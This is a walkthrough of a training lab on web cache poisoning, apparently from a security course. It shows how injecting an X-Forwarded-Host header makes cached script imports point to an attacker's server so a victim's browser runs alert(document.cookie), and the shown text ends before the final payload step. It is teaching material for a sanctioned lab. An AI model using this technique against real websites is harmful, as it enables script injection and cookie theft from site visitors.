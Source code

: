 This lab is vulnerable to web cache poisoning. 
It uses multiple layers of caching. 

A user regularly visits this site's home page using Chrome.

To solve the lab, poison the internal cache so that the home page executes `alert(document.cookie)` in the victim's browser.

### Solution

Trick here is to differentiate between external and internal cache. 
Sometimes we need to send the requests many times before we notice the fragments cached.

1. Navigate to the Home page and send the `GET /` request to Burp Repeater.

2. Notice changing the query we change the Response Body

```http
GET /?cb=mycb
```

Response:
```html
<link rel="canonical" href='//my.web-security-academy.net/?cb=mycb'/>
```

Also notice this does not cache the `/` response.

3. Use the Param Miner to discover `x-forwarded-host` header.

Add this to the Request:
```http
-
X-Forwarded-Host: test.net
```

Search for `test.net` in Response:
```html
	<link rel="canonical" href='//test.net/'/>
	<title>Internal cache poisoning</title>
</head>
<body>
	<script type="text/javascript" src="//test.net/resources/js/analytics.js"></script>
	<script src=//test.net/js/geolocate.js?callback=loadCountry>
```


> [!NOTE]
> If you get lucky with your timing, you will notice that your exploit server URL is reflected three times in the response.
> However, most of the time, you will see that the URL for the canonical link element and the `analytics.js` import now both point to your exploit server, but the `geolocate.js` import URL remains the same.
> For me it worked first time but if it doesn't keep sending the request. 
> Eventually, the URL for the `geolocate.js` resource will also be overwritten with your exploit server URL. 
> This indicates that this fragment is being cached separately by the internal cache. 

Example with only 2 matches:
```html
	<link rel="canonical" href='//test.net/'/>
	<title>Internal cache poisoning</title>
</head>
<body>
	<script type="text/javascript" src="//test.net/resources/js/analytics.js"></script>
	<script src=//my.web-security-academy.net/js/geolocate.js?callback=loadCountry></script>
```
   